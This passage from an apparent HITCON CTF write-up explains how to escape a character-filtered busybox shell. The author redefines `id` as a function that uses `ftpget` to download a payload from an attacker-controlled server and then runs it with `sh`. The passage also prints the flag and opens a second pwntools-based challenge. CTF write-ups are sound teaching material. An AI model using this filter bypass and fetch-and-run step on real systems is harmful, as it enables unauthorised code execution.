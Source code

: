 > `nc 18.178.60.6 1987`

### The challenge

It's identical to baby shock, but more characters are forbidden, including `;`
and even a single `.`

### The solution

One of the (very few) special characters allowed are `()`. With these, it's
possible to declare functions.

This means that we can do
```bash
> id () whoami
> id
whoami: unknown uid 1129
```

To redefine one of the allowed commands (in this case `id`) to a function that
executes our desired command.

Without the `.`, we couldn't use the same trick as before to execute the reverse
shell, as wget by default saves the downloaded files as `index.html` (and to
change that name, a flag starting with `-` is required).

Luckily, the server was running busybox, which contains the `ftpget` utility,
with the much simper syntax of `ftpget HOST LOCAL_FILE REMOTE_FILE`.

So we run the following commands

```bash
id () ftpget 123456789 payload payload
id
```

to download via FTP the payload file from our server with ip 123456789 (decimal
encoded), which contains the command `/readFlag`, and then

```
id () sh payload
id
```

To execute it and read the flag, which is
`hitcon{r3v3ng3_f0r_semic010n_4nd_th4nks}`.


Revenge of Pwn
--------------

> Have you ever thought those challenges you pwned may retaliate someday?
>
> `nc 3.115.58.219 9427`

### The challenge

Our task is to write an exploit to "pwn" a
[`pwntools`](https://github.com/Gallopsled/pwntools) Python script that runs on
the remtoe server. When we connect, we can upload an executable: this executable
is then saved and exposed in the local server on port 1337. Then, the Python
script is started and connects to it. Our executable does not have the right to
read the flag, which is at `/home/deploy/flag`, but the Python script does. We
need to find a way to make it read and spit out that file.
